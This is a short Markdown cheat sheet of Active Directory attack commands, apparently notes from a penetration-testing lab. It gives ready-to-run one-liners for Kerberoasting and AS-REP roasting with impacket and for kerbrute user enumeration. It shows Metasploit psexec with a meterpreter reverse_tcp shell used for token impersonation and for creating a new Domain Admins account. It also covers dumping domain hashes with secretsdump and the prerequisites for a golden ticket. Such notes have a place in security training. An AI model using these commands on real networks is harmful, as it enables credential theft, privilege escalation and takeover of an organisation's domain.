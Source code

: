 ### Access crackmapexec database

1. `cmedb`

### Kerberoasting with impacket

After cracking an account's hash, use this to request a TGT + TGS from the KDC to dump the service account hash

1. `sudo impacket-GetUserSPNs MARVEL.local/fcastle:Password1 -dc-ip 192.168.57.12 -request`

### Token impersonation

#### Two types

1. Delegate: Created for logging into a machine or using Remote Desktop
2. Impersonate: "Non-interactive" such as attaching a network drive or a domain logon script

-> Can be done from any meterpreter shell as long as "getprivs" has Impersonate

1. `msfconsole`
2. `use exploit/windows/smb/psexec`
3. Set RHOSTS, SMBDomain, SMBPass, SMBUser
4. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
5. `meterpreter> load incognito`
6. List tokens with `list_tokens -u`
7. Impersonate a user with `impersonate_token <DOMAIN>\\<USERNAME>`
8. Add a new user (if you impersonated an admin) `net user /add <USERNAME> <PASSWORD> /domain`
9. Add the new user to domain admins `net group "Domain Admins" <USERNAME> /ADD /DOMAIN`

### dump ntdt.dit with secretsdump

`secretsdump.py <DOMAIN>/<USER>:"<PASSWORD>"@<DC_IP_ADDRESS> -just-dc-ntlm`

### Golden ticket attacks

- Compromise the "krbtgt" account
- Completely pwn the AD Domain
- You need the
	- NTLM hash of krbtgt
	- Domain SID

### Enumerate accounts through Kerberos Pre-Authentication w/kerbrute

```
./kerbrute userenum --dc <DC_IP> -d <DOMAIN> <USERNAMES_FILE>
```

### AS-REP Roasting

```
impacket-GetNPUsers -no-pass -usersfile <USERNAMES_FILE> -format <john/hashcat> -dc-ip <DC_IP> <DOMAIN>/
```

